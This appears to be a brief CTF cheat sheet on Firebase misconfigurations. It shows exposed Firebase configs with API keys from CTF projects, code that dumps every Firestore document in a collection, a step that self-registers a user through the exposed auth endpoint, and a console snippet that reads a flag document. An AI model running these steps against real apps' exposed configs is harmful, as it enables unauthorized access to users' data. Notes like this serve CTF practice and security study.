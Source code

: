 # Firebase Exploits

## Credentials Given to Access Firebase/Firestorage Service

Eg. the below code left exposed:

```js
const firebaseConfig = {
  apiKey: 'AIzaSyDN_2EZMN-1QCJ4V13WYUTV4UKA4Im8lLM',
  authDomain: 'websec-ctfs.firebaseapp.com',
  projectId: 'websec-ctfs',
  storageBucket: 'websec-ctfs.appspot.com',
  messagingSenderId: '617149347368',
  appId: '1:617149347368:web:e34a2bf5fe52fb1b77a71d'
}
```

In this case, we can simply download the files and run/host it ourselves, adding our own code to dump all the firestorage documents.

```js
const colRef = collection(db, `${collectionName}`);
const docsSnap = await getDocs(colRef);
docsSnap.forEach(doc => {
  console.log(JSON.stringify(doc.data()));
})
```

Another case:

```js
firebase.initializeApp({
  "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
  "authDomain": "udctf-fire.firebaseapp.com",
  "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
  "messagingSenderId": "272888152617",
  "projectId": "udctf-fire",
  "storageBucket": "udctf-fire.appspot.com"
});
```

We can paste this into console, prepending `app =` to save the instance.

Following that:

```js
app.auth().createUserWithEmailAndPassword('email@example.com','Abc123!')
```

Then, run `app.auth()` and `ctrl+f` the UID, access token etc. Use the API either `/oracle` or check the [documentation](https://firebase.google.com/docs/reference/rest/database). Honestly idk what is going on Firebase is weird.

## Solving within Console

If you're too lazy to host or run yourself, then

```javascript
import("https://www.gstatic.com/firebasejs/9.17.1/firebase-app.js").then((firebase) => {
    const app = firebase.initializeApp(firebaseConfig);
    import("https://www.gstatic.com/firebasejs/9.17.1/firebase-firestore.js").then((firestore) => {
    const db = firestore.getFirestore(app);
    firestore.getDoc(firestore.doc(db, `/flag/flag`)).then((a) => {console.log(a.data())})
    
    })
})
```